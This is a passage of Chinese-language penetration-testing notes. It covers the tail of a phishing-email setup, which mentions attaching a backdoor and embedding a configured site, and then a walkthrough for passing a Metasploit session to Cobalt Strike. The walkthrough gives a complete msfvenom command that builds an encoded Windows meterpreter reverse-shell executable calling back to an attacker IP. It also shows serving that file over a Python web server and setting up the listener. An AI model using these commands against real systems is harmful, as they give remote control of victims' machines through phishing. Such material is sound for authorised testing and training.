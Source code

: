 附件： 可以加入后门程序或其他 或者不加

嵌入URL : 可以选择配置好的网站放进去

邮件服务器：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/242bc7796dc84d26a5013b558ce7b8c9.png)

退信通知邮箱 可以填写任意可接受邮件的邮箱

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/66e35b4a9f0048aaa06d3d4dc712b206.png)

所有参数配置完成后 点击 Send 发送邮件即可

# 12 将MSF会话注入Cobalt Strik监控

## 1 环境准备：

1 kali操作系统

2 Cobalt Strik 服务端和客户端

3 一个在MSF下拿到权限的靶机

## 2 配置MSF创建监听

2.1 使用msf创建后门

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.150 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

2.2  使用python创建一个web服务 然后使用靶机下载

python3 -m http.server 80

2.3 配置监控并获取meterpreter

启动msf

> msfconsole

创建监控

use exploit/multi/handler

加载payload

set payload windows/meterpreter/reverse_tcp

配置监控参数

show options

set lhost   监控IP

set lport   监控端口

run  执行
